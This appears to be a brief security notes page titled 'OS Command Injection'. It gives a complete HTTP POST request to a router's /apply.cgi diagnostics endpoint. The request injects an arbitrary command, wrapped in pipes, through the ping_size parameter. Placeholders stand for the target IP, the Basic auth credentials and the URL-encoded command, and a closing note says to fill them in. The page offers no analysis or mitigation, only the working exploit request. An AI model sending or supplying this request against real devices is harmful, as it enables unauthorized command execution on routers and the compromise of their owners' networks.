 +++
title = "OS Command Injection"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++


## OS Command Injection

Make an HTTP POST request to the router like the following:
```
POST /apply.cgi HTTP/1.1
Host: {TARGET_IP}
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Authorization: Basic {BASE_64_CREDENTIALS}
Content-Type: application/x-www-form-urlencoded
Content-Length: 181
Connection: close

submit_button=Diagnostics&change_action=gozila_cgi&submit_type=start_ping&action=&commit=0&ping_ip=1.1.1.1&ping_size=|{URL_ENCODED_CMD}|&ping_times=5&traceroute_ip=
```
**NOTE:** Replace {TARGET_IP}, {BASE_64_CREDENTIALS}, {URL_ENCODED_CMD} with the valid IP, credentials, and url encoded command respectively
